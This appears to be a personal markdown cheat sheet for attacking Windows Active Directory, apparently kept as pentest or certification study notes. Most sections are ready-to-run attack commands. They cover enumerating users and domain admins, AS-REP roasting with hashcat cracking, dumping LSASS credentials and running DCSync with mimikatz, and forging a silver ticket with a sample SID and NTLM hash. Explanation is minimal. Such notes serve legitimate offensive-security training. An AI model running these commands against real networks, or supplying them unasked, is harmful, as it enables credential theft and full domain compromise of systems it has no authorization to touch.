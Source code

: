 ## 🔺 Check if domain joined
```
systeminfo | findstr /B /C:"Domain"
# If it returns a domain name, the machine is domain-joined.
# If it returns WORKGROUP, it's not part of a domain.
```


## 🔺 Powerview
```
# Users
Get-NetUser | select samaccountname
Get-NetUser | select samaccountname, memberof, serviceprincipalname
# DC IP
Get-NetDomainController -Domain domain.com

# Who is domain admin
Get-DomainGroupMember "Domain Admins" -Recurse

# You can use CME to get hostname <-> IP 
```

## 🔺 Kerberos User enumeration
```
test if user names are validate:
kerbrute userenum -d relia.com --dc 172.16.143.6 users.txt 
```

## 🔺 LDAP Enumeration
```
ldapseasrch
```



## 🔺 AS-REP Roasting (NO Pre-Auth)
> Crack with hashcat a.hash /usr/share/wordlists/rockyou.txt -m 18200
```
GetNPUsers.py relia.com/ -usersfile users.txt -no-pass -dc-ip 172.16.143.6
```


## 🔺  DC Sync
 ### Step 1: Compromise Local Administrator on a Workstation
 
 ### Step 2: Check If any user Has Replication Privileges (sync)
```
Get-ObjectACL -DistinguishedName "DC=yourdomain,DC=com" -ResolveGUIDs | ? {($_.ObjectType -match 'replication') -and ($_.ActiveDirectoryRights -match 'GenericAll|WriteDACL|WriteOwner')}
```
### Step 3: Dump LSASS for Cached Credentials of domain admin
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Step 4: Use credentials of Domain Admin to dump credentials
Why would you do this?
> Your Domain Admin might not be the only highly privileged user. There might be Enterprise Admins, Service Accounts, or other Domain Admins with different access levels.
> Using DCSync, you can dump KRBTGT to create golden ticket (end game)
``` 
mimikatz.exe "lsadump::dcsync /domain:yourdomain.local /user:DomainAdmin"

```


## 🔺  Silver Ticket
- Require ((`Service Account password` OR `NTLM hash`)), ((`Domain SID`)) & ((`Target SPN`))
- Result -> Forged Service ticket AKA Silver Ticket
- If SPN used on multiple servers, Silver Ticket can be used on all of them.

#### To get the domain SID we can do whoami /user
```corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105```

#### to get the SPN we can enumerate SPN using impacket-GetUserSPNs.


### Forge TGS (Silver Ticket)
With all of this info, we can forge a TGS (silver ticket) as follows within mimikatz

```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:5d28cf5252d32971419580a51484ca09 /user:geffadmin
```
